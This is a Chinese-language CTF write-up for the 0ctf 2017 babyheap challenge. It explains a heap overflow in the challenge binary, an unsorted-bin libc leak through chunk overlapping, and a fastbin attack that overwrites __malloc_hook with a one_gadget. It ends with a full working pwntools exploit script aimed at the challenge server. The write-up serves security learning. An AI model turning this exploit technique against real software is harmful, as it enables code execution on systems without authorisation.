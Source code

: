 # 0ctf_2017_babyheap

[题目地址](https://buuoj.cn/challenges#0ctf_2017_babyheap)

我可能这辈子都学不会堆了，倒不是攻击手段看不明白，而是堆块大小不知道怎么决定，说白了就是基础不好，还没法调试。

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

来来来直接上[wp](https://blog.csdn.net/mcmuyanga/article/details/112466134)，不挣扎了。这题经典堆菜单题，用某个大佬的话说就是“毫无想象力”。

```c
```

Allocate分配堆块，重点看一下堆块的结构。

```c
```

Fill的漏洞就很明显了，连我都能看出来。填充内容时又问了一遍size，导致堆溢出。

```c
```

free很正常，把Allocate里的结构全置空，该free的free了，没有uaf。

```c
```

Dump打印内容，注意它是根据Allocate时存储的size来决定打印多少的，这种结构10个里面7个有问题。

```c
```

看来漏洞只有个堆溢出。由于开了全relro，不能用普通的改got表为system的方法了，要想办法往`__malloc_hook`里填one_gadget地址。这就很容易想到fastbin attack中的一个技术——让malloc返回任意地址处的堆块。如果我们能让malloc返回`__malloc_hook`周围地址的堆块，就能改写`__malloc_hook`了。堆溢出在手，这点不难办到，通过溢出修改一个堆块的fd指针，由于malloc根据fd指针取堆块，所以如果我们把fd指针改到`__malloc_hook`附近，就能分配到那块区域了。

还有个问题，这次有pie，我们需要先泄露地址。这里有个关于[unsorted bin泄露地址](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unsorted-bin-attack/#unsorted-bin-leak)的小技巧：当unsorted bin中只有一个堆块时，其fd与bk都是main_arena + offset。意味着如果我们能打印出一个已经进入unsorted bin的堆块的fd或者bk，减去某个偏移就时main_arena的地址了。得到main_arena的地址再减去main_arena的偏移就是libc_base。这个减去的值一般是0x3c4b78，包含offset和main_arena本身的偏移。最后的问题时我们怎么打印出fd和bk？这就要用到chunk extend and overlapping了。直接看exp吧，大佬讲的很清楚。

```python
from pwn import *

context.log_level = 'debug'
p=remote("node4.buuoj.cn",29543)

def add(size):
    p.sendlineafter('Command: ','1')
    p.sendlineafter('Size: ',str(size))

def edit(idx,content):
    p.sendlineafter('Command: ','2')
    p.sendlineafter('Index: ',str(idx))
    p.sendlineafter('Size: ',str(len(content)))
    p.sendlineafter('Content: ',content)

def delete(idx):
    p.sendlineafter('Command: ','3')
    p.sendlineafter('Index: ',str(idx))

def show(idx):
    p.sendlineafter('Command: ','4')
    p.sendlineafter('Index: ',str(idx))

#---------------这3个一组，是为了泄漏libc地址----------#
add(0x10)#0
add(0x10)#1
add(0x80)#2
#---------------这3个一组，是为了fastbin attack 覆写malloc hook 为one_gadget ----------#
add(0x30)#3
add(0x68)#4
add(0x10)#5

#------------------泄漏libc地址------------------------------------#
edit(0,p64(0)*3+p64(0xb1))#通过edit(0)来改变chunk1的大小，使其包裹chunk2
delete(1)
add(0xa0)#1   delete再add回来使为了改变结构体中的size值，因为show的长度是根据这个值来定的。
edit(1,p64(0)*3+p64(0x91))  #因为通过calloc申请回chunk1的所以chunk2被清零，我们要根据原来chunk2的内容恢复chunk2。，
delete(2)  #使得chunk2进入unsorted bin。free后chunk2的fd和bk就变成了main_arena+offset，包含在chunk1的内容中
show(1)     #那么我们打印chunk1的内容就能泄漏chunk2的fd
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) -0x3c4b78
malloc_hook =  libc_base + 3951376

#-----------------fastbin attack-------------------------------------#
delete(4)#释放使其进入fastbin
edit(3,p64(0)*7+p64(0x71)+p64(malloc_hook-0x23)) #通过堆块3的溢出修改已经被free的堆块4的fd指针为malloc_hook-0x23。这里算是个公式了，分配到这里才能通过错位构造出0x7f的size域。
add(0x68)#2    #fasbin attack。大佬这里标得到的是2好号堆块我不太懂，刚刚delete的是4号，那这个应该是4号，况且2号堆块不是在unsorted bin里吗？
add(0x68)#4    #这个堆块就分配到__malloc_hook周围了，下面编辑为one_gadget
one = [0xf1147,0xf02a4,0x4526a,0x45216]
one_gadget = libc_base + one[2]
edit(4,b'\x00'*0x13+p64(one_gadget)) #覆盖malloc_hook为one_gadget

add(0x10)

p.interactive() 
```